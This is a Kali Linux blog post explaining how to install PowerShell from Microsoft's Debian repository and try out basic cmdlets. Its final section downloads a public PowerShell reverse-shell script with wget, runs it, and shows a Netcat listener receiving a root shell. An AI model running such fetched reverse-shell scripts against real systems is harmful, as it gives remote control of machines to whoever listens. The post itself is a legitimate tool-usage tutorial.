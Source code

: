 ```yaml
---
title: "Installing PowerShell on Kali Linux"
date: Wed, 06 Jun 2018 00:00:00 +0000
draft: false
type: posts
---
```

# Installing PowerShell on Kali Linux
https://www.kali.org/blog/installing-powershell-on-kali-linux/images/powershell-on-kali-linux-v3.jpg
<br/>

<br/>
UPDATE NOV 2019 This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a: apt update &amp;&amp; apt -y install powershell And you will have powershell on your system. Old Post You may already be aware that you can safely add external repositories to your
<br/>
**UPDATE NOV 2019**
-------------------

This post is out of date as of 2019 as powershell has been added to the primary repos. Just do a:

```sh
apt update && apt -y install powershell
```

And you will have powershell on your system.

### Old Post

You may already be aware that you can safely [add external repositories to your Kali Linux installation](https://www.kali.org/blog/advanced-package-management-in-kali-linux/) but you may not be aware that one of the many repositories available online includes one from Microsoft that includes [PowerShell](https://github.com/PowerShell/PowerShell). The repository is for Debian but its packages install perfectly well on Kali, as we will show in this post.

### PowerShell Package Installation in Kali

We begin by installing the necessary dependencies, most of which should already be installed in your Kali installation by default:

```sh
apt update && apt -y install curl gnupg apt-transport-https
```

Next, we need to download and add the public repository GPG key so APT will trust the packages and alert you to any issues with package signatures:

```sh
curl https://packages.microsoft.com/keys/microsoft.asc | apt-key add -
```

With the GPG key added, we proceed to add the Microsoft package repository to its own package list file under **/etc/apt/sources.list.d/** and update the list of available packages:

```sh
echo "deb [arch=amd64] https://packages.microsoft.com/repos/microsoft-debian-stretch-prod stretch main" > /etc/apt/sources.list.d/powershell.list
apt update
```

Finally, we proceed to install the powershell package:

```sh
apt -y install powershell
```

### Running PowerShell

When the package installation completes, running **pwsh** will start up PowerShell, presenting us with the familiar “PS” prompt:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root>
```

If you’re new to PowerShell, one of the first things you will likely want to do is update the built-in help, which can be done by running the **Update-Help** Cmdlet. This may take a little while to complete but only really needs to be run once in a rare while:

```console
PS /root> Update-Help
Updating Help for module Microsoft.PowerShell.Utility
Locating Help Content...
```

As you might expect, you won’t find all the commands you’re used to when using PowerShell on Windows but all of the core modules are present and the code is under constant development and improvement:

```console
PS /root> Get-Process -Name gnome*
NPM(K) PM(M) WS(M) CPU(s) Id SI ProcessName
------ ----- ----- ------ -- -- -----------
0 0.00 5.71 0.03 1073 072 gnome-keyring-d
0 0.00 9.80 0.19 659 649 gnome-session-b
0 0.00 13.72 0.36 1089 080 gnome-session-b
0 0.00 110.06 3.36 778 649 gnome-shell
0 0.00 277.15 27.85 1170 080 gnome-shell
0 0.00 11.77 0.09 1199 075 gnome-shell-cal
0 0.00 77.79 4.58 1381 080 gnome-software
0 0.00 36.58 2.03 1646 646 gnome-terminal-
```

One of the surprising things you _can_ do however, is use PowerShell to send a reverse shell to a Netcat listener. We came across a [small PowerShell reverse shell](https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1) online and much to our surprise, it happily connected back to our listener:

```console
root@kali:~# pwsh
PowerShell v6.1.0-preview.2
Copyright (c) Microsoft Corporation. All rights reserved.
https://aka.ms/pscore6-docs
Type 'help' to get help.
PS /root> wget -q https://gist.githubusercontent.com/staaldraad/204928a6004e89553a8d3db0ce527fd5/raw/fe5f74ecfae7ec0f2d50895ecf9ab9dafe253ad4/mini-reverse.ps1
PS /root> ./mini-reverse.ps1
────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -lvnp 413
listening on [any] 413 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59006
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux kali 4.15.0-kali3-amd64 #1 SMP Debian 4.15.17-1kali1 (2018-04-25) x86_64 GNU/Linux
```

We think it’s remarkable that, not only did Microsoft Open-source PowerShell, they’ve also been constantly updating and improving it, and having a public package repository for it makes installation a breeze.

#### [Source](https://www.kali.org/blog/installing-powershell-on-kali-linux/)

<br/>
---
